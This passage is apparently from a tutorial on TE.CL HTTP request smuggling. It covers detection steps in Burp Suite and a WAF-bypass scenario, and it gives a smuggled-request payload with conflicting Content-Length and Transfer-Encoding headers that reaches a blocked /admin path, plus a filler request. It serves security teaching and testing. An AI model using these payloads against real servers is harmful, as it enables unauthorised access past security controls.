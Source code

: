 The backend appends the leftover data to the next request, resulting in an invalid or broken request.

---

### Detection

1. Configure Burp Suite to disable auto-updating of `Content-Length`.
    
2. Send two requests via a single connection:
    
    - A malformed TE.CL request.
        
    - A follow-up GET request.
        
3. If the second response returns `400 Bad Request`, the target is vulnerable.
    

---

### Exploitation Scenario: WAF Bypass

#### Goal:

Bypass a WAF that blocks URLs containing `/admin`.

---

### Exploitation Payload 1 (smuggled request):

```http
GET /404 HTTP/1.1
Host: target.site
Content-Length: 4
Transfer-Encoding: chunked

27
GET /admin HTTP/1.1
Host: target.site

0
```

### Exploitation Payload 2 (filler):

```http
GET /404 HTTP/1.1
Host: target.site
```

#### Proxy (WAF) View:

- Uses chunked parsing.
    
- Sees two requests to `/404`.
    
- Does not see `/admin`, so no filtering occurs.
    